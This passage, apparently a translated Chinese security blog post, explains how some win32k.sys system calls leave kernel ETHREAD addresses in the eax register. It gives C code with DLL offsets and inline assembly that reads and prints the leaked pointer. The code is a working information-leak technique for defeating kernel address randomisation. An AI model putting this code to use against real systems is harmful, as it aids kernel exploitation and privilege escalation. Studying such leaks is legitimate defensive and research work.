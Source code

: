 问题是，win32k.sys中的一些系统调用的返回值是小于32位的，例如VOID或USHORT，所以，在返回之前没有清除eax寄存器。 由于各种原因，在调用返回之前，内核地址在eax中结束，因此在调用之后立即读取eax，这些地址就会被完全暴露或部分暴露。

例如NtUserModifyUserStartupInfoFlags就完全暴露了ETHREAD结构的地址，下面你可以看到，在该函数返回之前调用了UserSessionSwitchLeaveCrit，这似乎向eax中加载了一个指向ETHREAD的指针，但是，由于函数返回之前没有清空寄存器的内容，导致这个地址完整保留了下来。

[![](https://p0.ssl.qhimg.com/t01845d258b5a9bb93d.png)](https://p0.ssl.qhimg.com/t01845d258b5a9bb93d.png)

要想使用这些系统调用来泄漏地址，我们首先需要添加标准include和Winddi，因为它们定义了将要调用的函数使用的一些GDI（图形设备接口）的结构。

```
#include "stdafx.h"
#include &lt;Windows.h&gt;
#include &lt;Winddi.h&gt;
```

我决定，通过使用其用户空间包装器（在这种情况下是user32.dll和gdi32.dll）来调用这些系统调用，因此我需要获取DLL中的函数的偏移量。为此，我把该dll拖拽到IDA中，将反汇编重定位到0，然后过滤函数列表以寻找目标函数。这样，找到的函数的起始地址是我需要的dll的偏移量。

我选择了一个完全泄漏ETHREAD的函数，以及一个部分泄漏它的函数。类似的方法同样适用于W32THREAD。

```
//0x64D4B - NtUserModifyUserStartupInfoFlags
typedef DWORD(NTAPI * lNtUserModifyUserStartupInfoFlags)(DWORD Set, DWORD Flags);
//0xA2F4 - NtUserGetAsyncKeyState
typedef DWORD(NTAPI *lNtUserGetAsyncKeyState)(DWORD key);
 
//0x47123 - NtGdiFONTOBJ_vGetInfo
typedef VOID(NTAPI * lNtGdiFONTOBJ_vGetInfo)(FONTOBJ *pfo,ULONG cjSize,FONTINFO *pfi);
//0x47263 - NtGdiPATHOBJ_vEnumStartClipLines
typedef VOID(NTAPI * lNtGdiPATHOBJ_vEnumStartClipLines)(PATHOBJ *ppo, CLIPOBJ *pco, SURFOBJ *pso, LINEATTRS *pla);
```

为了调用这些函数，我们首先需要一个处理它们所在的DLL的句柄，所以，我们首先设法得到user32.dll的句柄。

```
HMODULE hUser32 = LoadLibraryA("user32.dll");
if (hUser32 == NULL) `{`
    printf("Failed to load user32");
    return 1;
`}`
```

如果上述代码成功运行，我们就可以把第一个函数的偏移量与HMODULE的值相加，从而获得函数入口点，然后就可以将其转换为正确的类型了。

```
lNtUserGetAsyncKeyState pNtUserGetAsyncKeyState = (lNtUserGetAsyncKeyState)((DWORD_PTR)hUser32 + 0xA2F4);
```

然后，我们调用该函数并使用内联汇编来获取在eax中留下的值，并打印出来。

```
pNtUserGetAsyncKeyState(20);
unsigned int ethread = 0;
__asm `{`
    mov ethread, eax;
`}`
printf("NtUserGetAsyncKeyState ETHREAD partial disclosure: 0x%Xrn", ethread);
```

